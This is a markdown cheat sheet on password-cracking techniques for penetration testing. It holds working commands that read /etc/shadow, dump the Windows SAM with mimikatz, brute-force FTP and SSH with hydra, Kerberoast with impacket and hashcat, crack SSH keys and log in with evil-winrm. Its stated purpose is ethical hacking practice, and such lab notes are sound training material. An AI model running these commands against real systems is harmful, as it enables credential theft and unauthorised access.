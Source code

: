 ```yaml
---
title: Password Cracking Tools and Techniques
summary: Use of different tools to used for cracking password
description: Use of different tools to used for cracking password
slug: '/password-cracking-tools-and-techniques'
tags: ['ethical hacking', 'penetration testing', 'john the ripper', 'hashcat']
---
```


## Intro

### Dictionary Attacks

> CeWL (Custom Word List generator) is a ruby app which spiders a given URL, up to a specified depth, and returns a list of words which can then be used for password crackers such as John the Ripper.

| Type            | Path                                |
| --------------- | ----------------------------------- |
| John The Ripper | /usr/share/john/password.lst        |
| Rock You        | /usr/share/wordlists/rockyou.txt.gz |

```bash
locate wordlists

gzip -d /usr/share/wordlists/rockyou.txt.gz rockyou.txt
or
gunzip /usr/share/wordlists/rockyou.txt.gz rockyou.txt
```

## Exploration

### Linux

In Linux, the `/etc/passwd` file contains potentially important metadata in the GECOS field, including full name, room number, work phone, home phone, and others. Linux stores password hashes in the `/etc/shadow` file, which is why you need to use the sudo command to view it.

```bash
cat /etc/passwd
sudo cat /etc/shadow
```

The `unshadow` utility combines the /etc/passwd and /etc/shadow files. This is done so that John the Ripper can attempt to crack the password with information from both files, using a single file.

```bash
sudo unshadow /etc/passwd /etc/shadow > combined.txt
```

## Exploitation

### Linux Password

> Kali Linux 2021.1 changed the hash function for passwords from sha512crypt (listed as $6$ in the /etc/shadow file) to yescrypt (listed as $y$ in the /etc/shadow file).

```bash
sudo adduser vulnuser (room number: 8848.86 password vulnuser8848.86)
# [Your First Name] user a password of [Your Second Name] (you will not
# see anything on the screen when you type the password).
# Press ENTER for all the subsequent prompts
# (Full Name, Room Number, Work Phone, Home Phone, and Other) until the
# last prompt, which asks “Is the information correct? [Y/n].
```

#### John The Ripper

> John the Ripper will not attempt to crack a password it has already cracked.

```bash
# By the time you are reading this, support for the $y$ hashes might
# be incorporated into John the Ripper, which would mean you could
# leave off --format=crypt for some speedup
sudo john --wordlist=/usr/share/john/password.lst --format=crypt combined.txt

# See all passwords already cracked.
sudo john --show --format=crypt combined.txt

# To remove remembered password.
sudo rm /root/.john/john.pot

# By default single crack mode, uses the GECOS field, without wordlist.
sudo john --format=crypt combined.txt

sudo john --wordlist=/usr/share/wordlists/rockyou.txt --format=crypt combined.txt
```

```bash
sudo john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256 faiz.txt
```

#### hydra

```bash
# Target FTP
hydra -L username.txt -P /usr/share/wordlists/rockyou.txt ftp <target-ip-addr> -vV
  -L username file
  -l username
  -P password file
  -p password

# Target SSH
hydra -l <username> -P /usr/share/wordlists/rockyou.txt ssh://<target-ip-addr> -vV
```

### Windows Password

Creating user:

- Click the **Start** button or in the search box, type **Computer Management**, and select **Computer Management**. This opens the **Computer Management Console**.
- Expand **Local Users and Groups** in the pane at the left.
- Click **Users** to see all the current local user accounts.
- Right-click on a blank area in the right pane and select **New User**.
- Fill in the fields, creating a four-digit password with just lowercase letters.
- Clear the checkbox next to User Must Change Password At Next Logon and click the **Create**

```powershell
reg save hklm\SAM sam.hiv
reg save hklm\SYSTEM system.hiv

mimikatz
> privilege::debug
> token::elevate

# Send the next command’s output to a text file called hashes.txt:
> log hashes.txt

# Output the usernames and hashes for all accounts on the system:
> lsadump::sam sam.hiv system.hiv
```

e.g. windowshashes.txt

```txt
Beatles:5be2f274f2f80c5d4d0c597f023f4f61::::
StarWars:b7c899154197e8a2a33121d76a240ab5::::
```

#### GetUserSPNs.py

> Note: If there is misconfigured account, we can obtain the credentials from Active Directory using `GetUserSPNs`.

```bash
impacket-GetUserSPNs -dc-ip <dc-ip-addr> <host>.local/<user>:<pass> -request
```

> If error: `Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` you need to synchronize the host with the Domain Controller time.

```bash
# Download from here https://sourceforge.net/projects/openrdate/
tar -xvzf opendate-1.2.tar.gz

cd opendate
./configure
make
make install
rdate -n <domain-controller-ip>
```

#### John The Ripper

```bash
# Brute force of 4 character.
sudo crunch 4 4 | sudo john --format=NT windowshashes.txt --stdin

sudo john --format=NT windowhashes.txt

sudo john --show --format=NT windowshashes.txt

john --format=krb5tgs --wordlist=password.txt hash.kerberoast
```

#### crackmapexec

```bash
# Generating passwords. e.g. (ADMINISTRATOR1996)
crunch 18 18 -t ^ADMINISTRATOR19%% > passwords.txt

crackmapexec winrm <target-ip-addr> -u Administrator -p passlist
```

#### hashcat

```bash
hashcat -m 13100 --force -a 0 hash.kerberoast password.txt # -m refers to hash type
```

### SSH Pass key

```bash

python /usr/share/john/ssh2john.py id_rsa > ssh_hash.txt

john --wordlist=/usr/share/wordlists/rockyou.txt ssh_hash.txt
or
john ssh_hash.txt

# Avoid Unprotected Warning
chmod 600 id_rsa

ssh -i id_rsa user@<target-ip-addr>
```

## Window Remote Management (WinRM)

```bash
gem install evil-winrm

evil-winrm -i <target-windows-ip-addr> -u 'admin' -p 'pass'

# PowerShell
Get-ChildItem -Include *.txt -File -Recurse -ErrorAction SilentlyContinue
# Windows Prompt
dir secret.doc /s /p

# Display content of file
type <path>
```

## Remediation

- Account Lockout.
